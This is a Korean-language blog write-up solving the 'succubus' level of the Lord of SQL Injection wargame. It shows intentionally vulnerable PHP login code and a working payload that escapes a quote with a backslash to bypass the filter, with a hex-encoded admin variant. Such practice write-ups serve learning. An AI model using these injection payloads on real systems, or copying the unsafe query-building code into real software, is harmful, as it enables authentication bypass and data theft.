 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - succubus 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제는 `succubus`이다.  

`succubus`는 처음 듣는 이름이라 찾아봤는데, 중세 유럽의 전설이랑 민속에 나오는 악마 이름이라고 한다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------------------------
query : select id from prob_succubus where id='' and pw=''
-------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[id])) exit("HeHe"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>
```

지난 번 문제랑 뭐가 다른가 했는데, `ereg()` 대신에 `preg_match()`가 사용되었다.  

이번엔 정말로 `'`를 우회해야 하는 문제인 것 같다.  

처음에는 `preg_match()` 함수에 취약점이 있지 않을까 생각했다.  

그런데 아무리 찾아도 취약점이 있다는 내용이 보이지 않았고, 아직까지 `preg_match()`에 대한 취약점이 나오지 않았다는 글이 2017년에 올라와 있었다.  

그럼 다른 방법으로 문제를 풀어야 했기 때문에 엄청 고민을 했다.  

이런저런 키워드로 검색을 했는데, 그러다가 `\`에 필터링이 없을 경우 이를 이용 해 문제를 풀 수 있다는 내용을 봤다.  

문제에서, `id`와 `pw`를 입력받고 있다.  

이 때, 만약 `id`에 `\`를 입력하고 `pw`에는 ` or 1#`를 입력하면 완성되는 쿼리는 아래와 같다.  

```
select id from prob_succubus where id='\' and pw' or 1#
```

때문에 `id`의 뒤에 있는 `'`는 `\'`가 되며 싱글 쿼터 내의 문자로 인식된다.  

즉, `id`가 `' and pw`인 행을 찾게 되는 것이다.  

물론 테이블에는 `id`가 `' and pw`인 행은 없을 것이므로, 뒤의 `or 1`이 실행되며 값을 추출할 수 있게 된다.  

따라서 아래와 같이 입력하면 문제를 풀 수 있다.  

```
?id=\&pw= or 1%23
```

문제에서는 결과로 추출 된 `id`만 있으면 되기 때문에 `or 1`을 사용했는데, 만약 `admin`인 `id`를 추출했어야 했다면 `or id=0x61646d696e%23`을 `pw`에 입력하면 문제를 풀 수 있다.  

```php
--------------------------------------------------------------------------------------
query : select id from prob_succubus where id='\' and pw=' or 1#'
--------------------------------------------------------------------------------------

SUCCUBUS Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[id])) exit("HeHe"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>
```

`SUCCUBUS Clear!!`
